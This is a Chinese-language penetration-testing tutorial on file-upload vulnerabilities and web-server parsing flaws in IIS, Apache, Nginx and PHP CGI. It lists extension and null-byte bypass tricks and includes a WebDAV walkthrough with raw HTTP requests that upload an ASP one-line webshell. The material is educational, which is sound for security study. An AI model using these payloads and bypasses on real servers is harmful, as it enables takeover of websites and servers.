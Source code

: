 +++
date = "2016-07-20T11:30:53+08:00"
description = ""
draft = false
tags = ["fileupload"]
title = "文件上传漏洞与文件解析漏洞"
topics = ["Pentest"]

+++
<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-04-10 10:45:00
 * @LastEditTime: 2019-07-25 12:30:55
 -->

### 0x00 文件上传漏洞
```bash
当文件上传时，若服务端脚本语言未对上传的文件进行严格验证和过滤，若恶意用户上传恶意的
脚本文件时，就有可能控制整个网站甚至是服务器，这就是文件上传漏洞。

# 上传后得到的权限
1. 后台权限：登陆了后台，可以进行一些操作、配置
2. 网站权限：获得了webshell，可以进行查看源代码等操作
3. 服务器权限：可以对服务器进行任意操作
```

### 0x01 文件上传漏洞分类
```
1. 配置不当可直接上传shell
    HTTP的PUT方法开启了
2. 文件解析漏洞导致文件执行
    Web容器解析漏洞
3. 本地文件上传限制被绕过
    BurpSuite抓包修改即可绕过
4. 服务端过滤不严或被绕过
    使用了黑名单过滤
5. 文件路径截断上传
    00截断等
6. 开源编辑器上传漏洞
    如CKEditor(FCKeditor的新版)、eWebEditor的漏洞
```

### 0x02 文件上传漏洞利用条件
```
1. 首先,上传的文件能够被web容器解释执行。所以文件上传后的目录要是web容器所覆盖到的路径
2. 其次,用户能从web访问这个文件
3. 最后,用户上传的文件若被安全检查、格式化、图片压缩等功能改变了内容,则可能导致攻击失败
```

### 0x03 文件上传漏洞挖掘
```
1. 查找上传点，如图片、附件、头像的上传等
2. 找类似upload的目录、类似upload.php的文件
3. 找编辑器目录，如eWebEdirot、fckeditor、kingeditor等
```

### 0x04 常见可执行文件后缀
```
可用于绕过：
php php2 php3 php5 phtml
asp aspx ascx ashx cer asa
jsp jspx jspf
```

### 0x05 解析漏洞
```
文件上传漏洞通常与Web容器的解析漏洞配合利用
常见Web容器有IIS、Nginx、Apache、Tomcat等
```

### 0x06 IIS解析漏洞
IIS6.0在解析文件时存在以下两个解析漏洞
```
1、当建立*.asp、*.asa格式的文件夹时，其目录下任意文件都会被iis当作asp文件来解析。
2、当文件名为*.asp;1.jpg时，IIS6.0同样会以ASP脚本来执行。
```
WebDav漏洞
```
    WebDav是一种基于HTTP1.1协议的通信协议，它扩展了HTTP协议。在开启WebDav后若
支持PUT、Move、Copy、Delete等方法，就会存在安全隐患。

测试步骤如下：
    1）通过OPTIONS探测服务器所支持的HTTP方法
    请求：
    OPTIONS / HTTP/1.1
    Host: www.xxxx.com
    2)通过PUT方法向服务器上传shell
    请求：
    PUT /a.txt HTTP/1.1
    Host: www.xxxx.com
    Content-Length: 30

    <%eval request("chopper") %>
    3)通过Move或Copy方法改名
    请求：
    COPY /a.txt HTTP/1.1
    Host: www.xxxx.com
    Destination: http://www.xxxx.com/cmd.asp
    4)用DELETE方法删除文件
    请求：
    DELETE /a.txt HTTP/1.1
    Host: www.xxxx.com

注：可用桂林老兵的IIS Write快速探测服务器是否存在WebDav漏洞
```

### 0x07 Apache解析漏洞
```
在Apache 1.x和Apache 2.x中存在解析漏洞。

Apache在解析文件时有一个原则，当碰到不认识的扩展名时，将会从后向前解析，
直到碰到认识的扩展名为止，如果都不认识，则会暴露其源代码。
如：1.php.rar.sa.xs就会被解析为php，可以据此来绕过文件名限制

Apache版本在2.4.0到2.4.29存在CVE-2017-15715解析漏洞，可利用换行来绕过上传，问题出在$上，
上传的文件名为php1，抓包改hex，将1改为0a这个换行即可绕过
<FilesMatch \.php$>
        SetHandler application/x-httpd-php
</FilesMatch>

可以在Apache安装目录下的文件"/conf/mime.types"中配置Apache可以识别的文件名
```

### 0x08 Nginx解析漏洞
```
对低版本的Nginx可以在任意文件名后添加%00.php进行解析攻击
如：上传图片xx.jpg，然后通过改名为xx.jpg%00.php就会解析为php
```

### 0x09 PHP CGI解析漏洞
```
当php的配置文件中的选项cgi.fix_pathinfo = 1开启时，当访问http://www.xxx.com/x.txt/x.php
时，若x.php不存在，则PHP会递归向前解析，将x.txt当作php脚本来解析

IIS7.0/7.5中：任意文件名/任意文件名.php就会被解析为php
Nginx中：任意文件名/任意文件名.php就会被解析为php
```
